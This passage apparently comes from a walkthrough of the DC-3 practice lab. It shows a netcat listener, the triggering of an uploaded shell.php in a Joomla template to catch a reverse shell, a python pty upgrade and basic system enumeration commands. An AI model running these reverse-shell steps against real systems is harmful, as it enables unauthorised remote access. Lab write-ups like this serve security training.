

5.4 Execute netcat
It's time to exploit RCE. We'll use the “netcat reverse shell” to spawning shell o host machine.
a) Execute netcat:
$ nc -lvp 1234
Type in your browser:
http://192.168.12.42/templates/beez3/shell.php
b) On your Kali Linux you got a "reverse shell@.
Output:
c) Introduce the following commands on the shell:
python -c
'import pty;pty.spawn("/bin/bash")'
Output:
www-data@DC-3:/$
We are as "www-data" user.
d) Type the following commands.
$
whoami
$
id
$
uname
-a
$ lsb_release -a
lsb_releases: Give all the information about your OS.
Output:

Index